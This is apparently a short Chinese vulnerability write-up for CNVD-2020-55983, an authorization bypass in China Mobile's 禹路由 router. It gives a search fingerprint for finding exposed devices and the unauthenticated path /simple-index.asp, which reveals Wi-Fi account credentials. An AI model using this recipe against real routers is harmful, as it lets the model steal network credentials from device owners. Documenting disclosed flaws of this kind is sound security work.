

# 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下


访问Url

```plain
/simple-index.asp
```



越过管理员验证获取Wifl账号密码等信息